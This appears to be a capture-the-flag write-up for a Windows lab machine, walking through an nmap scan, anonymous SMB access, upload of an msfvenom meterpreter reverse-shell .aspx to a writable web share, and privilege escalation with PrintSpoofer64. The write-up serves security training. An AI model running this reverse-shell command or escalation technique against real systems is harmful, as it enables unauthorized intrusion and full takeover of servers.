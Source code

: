 1. Run nmap to discover any open ports from the server.
![image](https://github.com/user-attachments/assets/9d276ff9-7b4b-491e-ae79-5a5b855f47d5)
2. Trying to open the website with http protocol and it shows default IIS page.
![image](https://github.com/user-attachments/assets/74ba80c9-2e25-4304-93f2-0c873afe8b7d)
3. There is SMB service from the server (port 139 and 445 are opened). So, I checked the content inside with smbclient tool.
![image](https://github.com/user-attachments/assets/3c671145-e066-46da-b01a-6dafb7eefa28)
4. There is a folder named nt4wrskv as my main focus and found a password.txt file inside.
![image](https://github.com/user-attachments/assets/7f401a1f-0c42-48f5-8eef-95df2e2d8903)
5. Open the password.txt file in my local machine and it shows base64 encoded string inside. I tried to decode and it results username and password data. But, I'm not use the file contents for this case. <br>
![image](https://github.com/user-attachments/assets/68631caf-53eb-480a-861c-b56b506b2fe2)
6. In nt4wrskv folder, I can write or modified the content inside. So, I made a reverse shell file that has .aspx extension to execute it from the browser later. <br>
**Command: msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=10.21.155.12 lport=7777 -f aspx -o shell.aspx** <br>
![image](https://github.com/user-attachments/assets/04768c2a-a505-4230-a671-f0cafb4f6027)
7. Insert it into the nt4wrskv folder inside the SMB server.
![image](https://github.com/user-attachments/assets/977ccb2c-bd35-4a64-a73b-ea36766ed9ff)
8. Set listener in my local machine with netcat and open the shell.aspx from the website in port 49663. <br>
![image](https://github.com/user-attachments/assets/29a31803-94b6-43af-b4a6-900b6a818ffe)
![image](https://github.com/user-attachments/assets/bcdb0f8a-6594-431b-affc-d73518ec8f64)
9. Successfully obtain the target shell, the user flag can be found in C:\Users\Bob\Desktop\User.txt file.
![image](https://github.com/user-attachments/assets/30784713-bd2e-4457-a25f-d31a8e8fa860)
10. For the admin privilege, I check first what the user privilege has with **whoami /priv** command.
![image](https://github.com/user-attachments/assets/00f033bf-7927-4ec3-840e-a05ca188d6d4)
11. It shows that I can impersonate my privilege. To do so, I use PrintSpoofer64.exe and insert it into nt4wrskv folder inside SMB server.
![image](https://github.com/user-attachments/assets/bb05dc70-81a2-4180-9ab1-8108e975a713)
12. Now I must execute the file from the target Windows terminal. From the terminal, the nt4wrskv folder located in C:\inetpub\wwwroot folder. <br>
![image](https://github.com/user-attachments/assets/031e3f60-95cd-4d8b-b2cd-b52de35b051d)
13. Escalate the user privilege with this command. <br>
**Command: PrintSpoofer64.exe -i -c cmd.exe** <br>
![image](https://github.com/user-attachments/assets/f6694adf-1f44-4e1b-ae68-be9abc2c5c31)
14. Successfully obtain the admin privilege, the root flag is stored in C:\Users\Administrator\Desktop\root.txt file.
![image](https://github.com/user-attachments/assets/c2e9cc30-9e48-4b49-a413-518b9989641f)
























